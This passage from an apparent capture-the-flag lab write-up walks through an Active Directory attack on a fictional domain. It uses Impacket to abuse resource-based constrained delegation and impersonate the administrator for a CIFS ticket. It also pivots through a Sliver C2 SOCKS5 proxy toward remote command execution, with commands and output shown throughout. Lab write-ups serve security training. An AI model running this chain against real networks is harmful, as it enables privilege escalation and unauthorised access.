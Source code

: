 ```
proxychains -q impacket-rbcd -delegate-from 'GATARI$' -delegate-to 'WESTERN-OUTPOST$' -action 'write' 'async.empire'/'GATARI$':'P@ssw0rd'                                                   
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Delegation rights modified successfully!
[*] GATARI$ can now impersonate users on WESTERN-OUTPOST$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     GATARI$      (S-1-5-21-3324594629-4204122608-2512478463-1283)
```

Now that our `GATARI$` account has been granted delegation rights on `WESTERN-OUTPOST`, we can request a Service Ticket (ST) for any user (including `Administrator`) to any service on `WESTERN-OUTPOST` - similar to that of Constrained Delegation.

A list of default (and important) SPNs can be found: [here](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/silver-ticket.html#). For this writeup, we'll be using the `cifs` SPN, which is used for the SMB service which allows us to access remote shares and interact with services.

```
proxychains -q impacket-getST -spn 'cifs/WESTERN-OUTPOST.async.empire' -impersonate 'administrator' 'async.empire'/'GATARI$':'P@ssw0rd'             
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@cifs_WESTERN-OUTPOST.async.empire@ASYNC.EMPIRE.ccache
```

### Accessing WESTERN-OUTPOST via Pivot

Since `WESTERN-OUTPOST` is only accessible via our newly-acquired `SOUTHERN-TOWER` session, we can use our sliver session to proxy the connection to `WESTERN-OUTPOST` using the `socks5` command. This will allow us to connect to `WESTERN-OUTPOST` via the jump host.

```
sliver (initial) > socks5 start --port 1082

[*] Started SOCKS5 127.0.0.1 1082  
⚠  In-band SOCKS proxies can be a little unstable depending on protocol
```

As our previous SSH tunnel is still active (and using SOCKS4), we'll need to modify our `/etc/proxychains4.conf` to use `SOCKS5`, set the `proxy_dns` option to `true`, and modify the connection port to `1082` instead of `1081`.

```
socks5 127.0.0.1 1082 X X
```

> `X` can be empty as `sliver` does not set any authentication by default.

Using the acquired `cifs@western-outpost` ticket, we can now access the `WESTERN-OUTPOST` machine using `impacket-wmiexec` to execute commands on the remote machine - and obtain the third flag!
